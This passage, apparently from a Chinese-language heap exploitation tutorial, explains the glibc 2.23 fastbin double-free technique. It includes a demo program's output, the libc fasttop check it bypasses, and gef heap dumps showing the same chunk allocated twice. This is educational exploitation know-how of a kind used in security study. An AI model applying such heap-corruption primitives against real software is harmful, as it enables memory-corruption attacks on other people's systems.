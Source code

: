 ```c
    strcpy(d, "DDDDDDDD");
    fprintf(stderr, "4st malloc(9) %p points to %s the first time\n", d, d);
    strcpy(e, "EEEEEEEE");
    fprintf(stderr, "5nd malloc(9) %p points to %s\n", e, e);
    strcpy(f, "FFFFFFFF");
    fprintf(stderr, "6rd malloc(9) %p points to %s the second time\n", f, f);
}
```
```
$ gcc -g fastbin_dup.c 
$ ./a.out 
Allocating 3 buffers.
1st malloc(9) 0x1c07010 points to AAAAAAAA
2nd malloc(9) 0x1c07030 points to BBBBBBBB
3rd malloc(9) 0x1c07050 points to CCCCCCCC
Freeing the first one 0x1c07010.
Then freeing another one 0x1c07030.
Freeing the first one 0x1c07010 again.
Allocating 3 buffers.
4st malloc(9) 0x1c07010 points to DDDDDDDD the first time
5nd malloc(9) 0x1c07030 points to EEEEEEEE
6rd malloc(9) 0x1c07010 points to FFFFFFFF the second time
```
这个程序展示了利用 fastbins 的 double-free 攻击，可以泄漏出一块已经被分配的内存指针。fastbins 可以看成一个 LIFO 的栈，使用单链表实现，通过 fastbin->fd 来遍历 fastbins。由于 free 的过程会对 free list 做检查，我们不能连续两次 free 同一个 chunk，所以这里在两次 free 之间，增加了一次对其他 chunk 的 free 过程，从而绕过检查顺利执行。然后再 malloc 三次，就在同一个地址 malloc 了两次，也就有了两个指向同一块内存区域的指针。

libc-2.23 中对 double-free 的检查过程如下：
```c
    /* Check that the top of the bin is not the record we are going to add
       (i.e., double free).  */
    if (__builtin_expect (old == p, 0))
      {
        errstr = "double free or corruption (fasttop)";
        goto errout;
      }
```
它在检查 fast bin 的 double-free 时只是检查了第一个块。所以其实是存在缺陷的。

三个 malloc 之后：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021 <-- chunk a
0x602010:	0x4141414141414141	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000021 <-- chunk b
0x602030:	0x4242424242424242	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000021 <-- chunk c
0x602050:	0x4343434343434343	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000020fa1 <-- top chunk
0x602070:	0x0000000000000000
```
第一个 free 之后，chunk a 被添加到 fastbins 中：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021 <-- chunk a [be freed]
0x602010:	0x0000000000000000	0x0000000000000000      <-- fd pointer
0x602020:	0x0000000000000000	0x0000000000000021 <-- chunk b
0x602030:	0x4242424242424242	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000021 <-- chunk c
0x602050:	0x4343434343434343	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000020fa1
0x602070:	0x0000000000000000
gef➤  heap bins fast 
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x602010, size=0x20, flags=PREV_INUSE)
```